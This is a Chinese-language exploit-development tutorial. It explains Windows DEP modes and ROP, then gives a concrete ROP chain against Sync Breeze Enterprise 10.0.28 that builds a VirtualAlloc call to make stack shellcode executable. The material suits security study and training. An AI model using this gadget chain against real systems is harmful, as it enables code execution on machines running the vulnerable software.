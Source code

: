 ```yaml
---
layout: default
---
```


  使用 Sync Breeze Enterprise 10.0.28 用于测试对象. 
  由于 Sync Breeze Enterprise 10.0.28 未导入VirtualAlloc, 使用GetLastError地址替换.
 
 ## DEP 简介
#### DEP 总共有4种模式.
 OptIn:           	DEP 只对系统进程和指定进程开启.
 OptOut:        	DEP 对所有进程开启,除非指定了特定进程不开启.
 AlwaysOn :   	DEP 始终开启.
 AlwasysOff : 	DEP 始终关闭.
 win7 和 win10 默认使用 OptIn. 	windows Server 2012 或  Windows Server 2019 默认使用AlwaysOn.
#### 为了兼容性问题, 有些情况下可以对进程开启或关闭 DEP
 LdrpCheckNXCompatibility 	用于检查以确定是否应为进程启动DEP支持. (ntdll.dll)
 NtSetInformationProcess 		用于是开启或禁用正在运行的进程的DEP. (ntdll.dll)

#### win10 强制开启指定进程DEP
安全中心 -> 打开Windows安全中心 -> 应用和浏览器控制 -> Exploit Protection -> 程序设置 -> 添加程序自定义 -> 数据执行保护(DEP)
编译过程中加入 /NXCOMPAT标志 , 在进程运行期间无法禁用DEP. 
这意味着在整个过程中无法关闭 DEP, 那么唯一的选择就是规避系统的NX检查.
---
##  Return  Oriented Programming (ROP)
 ROP 原理是用程序中己有的代码片段来组成可执行的代码链.
 通过将不同代码片段地址注入到栈中, 使用RET来控制程序流程.
 最终调用 VirtualAlloc,VirtualProtect 等函数改写内存权限执行Shellcode.

```
 假设栈内数据如下的情况下,代码会依次执行. 使用栈来控制RET的跳转.

  ESP 0 -> 0x1013fc06  	# xor eax, eax ; ret ;
  ESP 4 -> 0x101229f2	# inc eax ; ret ;
  ESP 8 -> 0x10114901	# mov  [ecx], eax ; ret ;
```
#### 使用rp++获取Gadgets
```
- https://github.com/0vercl0k/rp
- rp-win-x86.exe -f Test.exe -r 5 > rop.txt  
```

#### 使用VirtualAlloc改变虚拟地址属性
```
 LPVOID WINAPI VirtualAlloc(
   _In_opt_ LPVOID lpAddress,
   _In_     SIZE_T dwSize,
   _In_     DWORD  flAllocationType,
   _In_     DWORD  flProtect
 );
```
 pAddress: 如果指向己分配页面,则可以使用flProtect改变页面属性.
 dwSize: 以页为单位 Shellcode如果小于0x1000字节, dwSize在0x01~0x1000之间即可.
 flAllocationType: 必须设置为MEM_COMMIT (0x00001000).
 flProtect: 必须设置为PAGE_EXECUTE_READWRITE (0x00000040).

#### 调用栈信息
- 将以下栈数据放到溢出EIP之前. 
```
0d2be300 75f5ab90 -> KERNEL32!VirtualAllocStub (kernel32.dll符号表中名字为VirtualAllocStub)
0d2be304 0d2be488 -> Return address (Shellcode on the stack)
0d2be308 0d2be488 -> lpAddress (Shellcode on the stack)
0d2be30c 00000001 -> dwSize
0d2be310 00001000 -> flAllocationType
0d2be314 00000040 -> flProtect
```
#### 需要解决的问题
 得到栈地址 (通过PUSH ESP; POP REGISTER; 来获取)
 得到 VirtualAlloc 地址 (通过IAT表获得)
 得到 Shellcode 地址 (通过计算溢出数据来计算)
 dwSize, flAllocation Type和 flProtect 包含0x00字符. (通过负数运算,自增,自减,取反等方式写入)

#### 参考代码
```
  #-----------调用框架----------
  va = pack('<L', 0x45454545)	# KERNEL32!VirtualAllocStub
  va += pack('<L', 0x46464646)	# Return address (Shellcode on the stack)
  va += pack('<L', 0x47474747)	# lpAddress (Shellcode on the stack)
  va += pack('<L', 0x48484848) 	# dwSize
  va += pack('<L', 0x49494949) 	# flAllocationType
  va += pack('<L', 0x51515151)	# flProtect

  #-----------得到栈地址----------
  eip = pack('<L', 0x10154112)	# push esp ; inc ecx ; adc eax, 0x08468B10 ; pop esi ; ret ; (将ESP地址赋值给ESI)
  rop = pack("<L", 0x41414141)	# offset (栈偏移对齐,根据漏洞情况而定)
  rop += pack('<L', 0x10052048)	# mov eax, esi ; pop esi ; retn 0x0004 ; (将ESP地址赋值给EAX(EAX 操作指令更多))
  rop += pack("<L", 0x41414141)	# alignment pop esi
  
  #-----------得到VA地址 (esp - 20)----------
  rop += pack("<L", 0x10154336)	# pop ebp ; ret ;
  rop += pack("<L", 0x41414141)	# alignment retn 0x0004 (先RET然后ESP+4)
  rop += pack("<L", 0xFFFFFFE0)	# -0x00000020 = 0xFFFFFFE0
  rop += pack("<L", 0x100fcd71)	# add eax, ebp ; dec ecx ; ret ;(eax = esp - 0x20 指向VA栈顶)
  rop += pack("<L", 0x100baecb)	# xchg eax, ecx ; ret ; 
  
  #-----------写入函数地址到 VA (esp - 20)----------
  rop += pack("<L", 0x1002f729)	# pop eax ; ret ; (eax = GetLastError IAT Address)
  rop += pack("<L", 0x10168040)	# GetLastError IAT Address
  rop += pack("<L", 0x1014dc4c)	# mov eax,  [eax] ; ret ; (eax = GetLastError 虚拟地址)		 
  rop += pack("<L", 0x10114901)	# mov [ecx], eax ; retn 0x000C ; (GetLastError 虚拟地址 写入VA栈顶)
  
  #-----------写入返回地址到 VA + 4 (esp - 20)----------
  rop += pack("<L", 0x10152f51)	# mov eax, ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10154336)	#  pop ebp ; ret ;
  rop += pack("<L", 0xFFFFFEB8)	# -0n328 = 0xFFFFFEB8
  rop += pack("<L", 0x1014c168)	# sub eax, ebp ; pop esi ; pop ebp ; pop ebx ; ret ; (shellcode偏移,大小根据情况而定)
  rop += b"A" * 0xC				# alignment 3 pop
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; (VA + 4 = Return address (Shellcode on the stack))
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ;
  
  #-----------写入lpAddress到地址 VA + 8 (esp - 18)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + 4 = lpAddress address (Shellcode on the stack))
  
  #-----------写入dwSize到地址 VA + C (esp - 14)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x1013fc06)	# xor eax, eax ; ret ;
  rop += pack("<L", 0x101229f2)	# inc eax ; ret ;
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + 8 = dwSize)
  
  #-----------写入flAllocationType到地址 VA + 10 (esp - 10)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x1002f729)	# pop eax ; ret ;
  rop += pack("<L", 0xFFFFEFFF)	# -0x00001000 = 0xFFFFEFFF
  rop += pack("<L", 0x1010ccc3)	# neg eax ; ret ;
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + C = flAllocationType)
  
  #-----------写入flProtect到地址 VA + 14 (esp - C)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x1002f729)	# pop eax ; ret ;
  rop += pack("<L", 0xFFFFFFC0)	# 0x00000040 = 0xFFFFFFC0
  rop += pack("<L", 0x1010ccc3)	# neg eax ; ret ;
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + 10 = flProtect)
  
  #-----------调用函数 KERNEL32!VirtualAllocStub----------
  rop += pack("<L", 0x10152f51)	# mov eax, ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10154336)	# pop ebp ; ret ;
  rop += pack("<L", 0xFFFFFFEC)	# 0n20 = FFFFFFEC 
  rop += pack("<L", 0x100fcd71)	# add eax, ebp ; dec ecx ; ret ; (还原EAX地址到VA栈顶)
  rop += pack("<L", 0x10158c35)	# xchg eax, esp ; ret ; (将VA栈顶地址赋值给ESP)
```

 [DEP Bypass  参考](https://www.youtube.com/watch?v=phVz8CqEng8)
 [Sync Breeze Enterprise 10.0.28 栈溢出参考](https://blog.csdn.net/faint23/article/details/138291631)